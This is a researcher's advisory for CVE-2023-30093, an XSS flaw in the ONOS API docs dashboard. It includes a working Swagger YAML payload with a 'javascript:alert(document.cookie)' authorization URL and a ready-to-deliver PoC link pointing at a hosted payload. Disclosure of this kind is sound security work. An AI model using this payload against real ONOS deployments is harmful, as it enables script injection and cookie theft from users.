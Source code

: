# CVE-2023-30093

Description
------

A cross-site scripting (XSS) vulnerability in Open Networking Foundation ONOS from version v1.9.0 to v2.7.0 allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the url parameter of the API documentation dashboard.

PoC
------

PoC for CVE-2023-30093: [@edoardottt Youtube video](https://www.youtube.com/watch?v=jZr2JhDd_S8)

Vulnerable endpoint: <http://localhost:8181/onos/v1/docs/>

Payload:

```yaml
swagger: "2.0"
info:
  title: edoardottt XSS
  description: XSS ONOS POC
  version: 1.0.0
host: edoardottt.com
basePath: /v1
schemes:
  - https

securityDefinitions:
  OAuth2:
    type: oauth2
    flow: accessCode
    authorizationUrl: javascript:alert(document.cookie)//
    tokenUrl: https://example.com/oauth/token
    scopes:
      read: Grants read access
      write: Grants write access
      admin: Grants read and write access to administrative information
```

PoC URL ready to be delivered: <http://localhost:8181/onos/v1/docs/?url=https://gist.githubusercontent.com/edoardottt/917636d9b210d0b15c3a10cfff35ab33/raw/659a4ae263287dff740f386db4533ca042203cfe/onos-xss2-poc.yaml>

References
------

- <https://edoardottt.com/CVE-2023-30093>
- <https://nvd.nist.gov/vuln/detail/CVE-2023-30093>
- <https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-30093>
- <https://github.com/advisories/GHSA-q63q-hwf6-3mw6>
- <https://www.tenable.com/cve/CVE-2023-30093>
- <https://www.opencve.io/cve/CVE-2023-30093>
- <https://avd.aquasec.com/nvd/2023/cve-2023-30093/>
- <https://cve.report/CVE-2023-30093>
- <https://security.snyk.io/vuln/SNYK-JAVA-ORGONOSPROJECT-5497342>

<br>

Useful links while researching for this CVE:

- <https://github.com/swagger-api/swagger-ui/pull/3848>
- <https://github.com/swagger-api/swagger-ui/issues/3847>
- <https://github.com/swagger-api/swagger-ui/commit/f87eaaa81073a61e30ff0cedee4fd9cd2dd1fca9>
- <https://github.com/swagger-api/swagger-ui/commit/f87eaaa81073a61e30ff0cedee4fd9cd2dd1fca9#diff-f510249cd192f2f011846a9640aebfd0c96995e744aa55e3b1c2e541da62a9ef>
- <https://security.snyk.io/vuln/npm:swagger-ui:20171031>
- <https://security.snyk.io/vuln/npm:swagger-ui:20160721>
- <https://security.snyk.io/vuln/npm:swagger-ui:20160901>

